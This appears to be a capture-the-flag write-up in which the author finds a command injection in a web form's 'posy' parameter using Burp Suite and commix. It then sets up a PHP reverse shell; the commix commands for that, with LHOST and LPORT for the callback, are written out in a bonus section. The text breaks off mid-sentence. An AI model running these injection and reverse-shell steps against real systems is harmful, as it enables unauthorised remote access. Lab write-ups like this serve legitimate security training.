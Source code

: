 

We are given a website with a vehicle redirection function

![](https://i.imgur.com/Kiuqe0S.png)



Testing out the Functionality of the website i decided to alter the behavior of **ALG** since it was the only one in parked as shown in the last image

![](https://i.imgur.com/Kr2zaag.png)

Great, Now let test for Command Injection vulnerability, we are given 3 areas making it pretty hard to find, so i decided to use burpsuite to intercept the request


![](https://i.imgur.com/MQkpKvK.png)

Nice, we have 3 parameters which is `plate` , `posx` and `posy`, we can use a tool called `commix` to test out for command injection efficiently and faster

![](https://i.imgur.com/v94cy3d.jpg)
 
You should notice that i used only `posy` for the `--data` switch instead of "`plate=ASH&posx=200&posy=300`" , i had run the scan with level=3 making it really slow, so that was the parameter i found out, was injectable.

We can then pop-up a **pseudo-terminal** shell and then from there get a reverse shell with PHP since that is the web technology been used

![](https://i.imgur.com/0HWZQOq.jpg)


## **Bonus**

### **Getting a reverse shell**

I was finding it difficult to get a reverse shell using `commix` but here is how i went about it, you can type in this on commix command line

```bash
# start the reverse tcp session
commix(os_shell) > reverse_tcp

# set LHOST and LPORT
commix(reverse_tcp) > set LHOST 192.168.0.157
LHOST => 192.168.0.157
commix(reverse_tcp) > set LPORT 1234
LPORT => 1234
```

Depending on our target we would select what type of reverse shell we want, since it is a web shell we will select PHP

![](https://i.imgur.com/KWyxEGM.png)

> **Note :** Make sure to know the web technology your target uses first then you can select a proper reverse shell



Since it is `PHP` i selected `1` and 


